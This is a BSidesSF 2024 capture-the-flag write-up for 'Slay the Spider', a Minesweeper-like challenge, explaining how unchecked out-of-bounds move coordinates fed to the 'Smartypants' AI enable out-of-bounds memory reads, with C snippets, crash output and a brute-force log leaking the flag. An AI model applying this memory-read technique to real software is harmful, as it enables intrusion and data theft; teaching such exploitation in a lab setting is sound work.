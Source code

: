 ```yaml
---
title: 'BSidesSF 2024 Writeups: Slay the Spider (A hard heap-overflow)'
author: ron
layout: post
categories:
- bsidessf-2024
- ctfs
---
```


[Slay the Spider](https://github.com/BSidesSF/ctf-2024-release/tree/main/slay-the-spider) is a Minesweeper-like game where the user and computer try to uncover a spider. The challenge name and trappings are based on [Slay the Spire](https://store.steampowered.com/app/646570/Slay_the_Spire/), which is one of my favourite games.

<!--more-->

When you start the game, there are several different enemy AI options:

```
1: The Angry One - Plays at Random
2: Cheater Mc Cheaterly - Knows the best places to play
3: Smartypants - Uses magical super AI for the best chance of winning
4: Captain Fastidious - Is sure that playing left to right is best
```

Those are loosely based on the classes from Slay the Spire.

The third - *Smarypants* - is the key. It chooses the target square based on a silly algorithm:

```c
case AI_SMART:
  // Picks the average of the human move and the last computer move
  move.row = (human_move.row + last_computer_move.row) / 2;
  move.col = (human_move.col + last_computer_move.col) / 2;
```

The problem is that the `human_move.row` and `human_move.col` are set even when the move is invalid:

```c
static move_t do_human_turn(game_t *game) {
  move_t move;

  printf("It's your (human) move!\n");
  printf("\n");
  printf("Row?\n");
  move.row = read_int();

  printf("\n");
  printf("Col?\n");
  move.col = read_int();

  if(move.row > game->gameboard->rows || move.col > game->gameboard->cols || move.row < 0 || move.col < 0) {
    printf("Select a cell that's in-bounds next time!\n");
    printf("\n");
    printf("Result: one missed turn\n");
  }

  // [...]

  return move;
}

// [...]

move_t human_move = do_human_turn(game);
// [...]
```

As a result, you can choose an illegal space:

```
It's your (human) move!

Row?
100000

Col?
100000
Select a cell that's in-bounds next time!

Result: one missed turn
```

But the computer will still use that:

```
It's the opponent (Smartypants) move!
COMPUTER chooses [50001, 50001] and... fish: Job 1, './slay-the-spider' terminated by signal SIGSEGV (Address boundary error)
```

You can use that to read memory "before" the gameboard. So far I've just bruteforced the offset - I might need to add a leak which includes the flag. I'm hoping it'll be possible to reliably find the flag in memory, but I can do it against localhost pretty quickly:

```
Trying to read flag from offset -5184...
Connecting to localhost:4444...
String so far: C / ["43"]
String so far: CT / ["4354"]
String so far: CTF / ["435446"]
String so far: CTF{ / ["4354467b"]
String so far: CTF{t / ["4354467b74"]
...
```
